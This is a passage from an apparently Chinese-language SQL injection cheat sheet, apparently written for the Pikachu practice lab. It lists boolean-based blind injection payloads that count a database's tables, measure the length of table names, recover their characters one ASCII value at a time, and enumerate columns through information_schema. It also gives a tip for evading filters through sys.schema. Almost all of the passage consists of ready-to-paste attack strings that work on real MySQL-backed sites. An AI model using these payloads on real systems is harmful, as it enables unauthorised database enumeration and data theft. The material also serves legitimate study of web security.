 判断指定数据库中数据表的个数

```
' AND (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema='pikachu') = 5 -- 
```

判断当前数据库中数据表的个数

```
' AND (SELECT COUNT(*) FROM information_schema.TABLES WHERE table_schema=DATABASE()) = 5 -- 
```

> 当 `information_schema` 被过滤时可使用 `sys.schema` 

判断指定数据库中第一个数据表名的字节长度

```
' AND (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1) = 8 -- 
```

判断当前数据库中第一个数据表名的字节长度

```
' AND (SELECT LENGTH(table_name) FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1) = 8 -- 
```

判断指定数据库中第一个数据表名的第一个字符

```
' AND ASCII (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema='pikachu' LIMIT 0, 1), 1, 1)) = 104 -- 
```

判断当前数据库中第一个数据表名的第一个字符

```
' AND ASCII (SUBSTR((SELECT table_name FROM information_schema.TABLES WHERE table_schema=DATABASE() LIMIT 0, 1), 1, 1)) = 104 -- 
```

### 7.3. Columns

判断指定数据库中指定数据表中字段的个数

```
' AND (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema='pikachu' and table_name='users') = 4 -- 
```

判断当前数据库中指定数据表中字段的个数

```
' AND (SELECT COUNT(*) FROM information_schema.COLUMNS WHERE table_schema=DATABASE() and table_name='users') = 4 -- 
```

判断指定数据库中指定数据表中第一个字段名的字节长度

```
' AND (SELECT LENGTH(column_name) FROM information_schema.COLUMNS WHERE table_schema='pikachu' AND table_name='users' LIMIT 0, 1) = 2 -- 
```
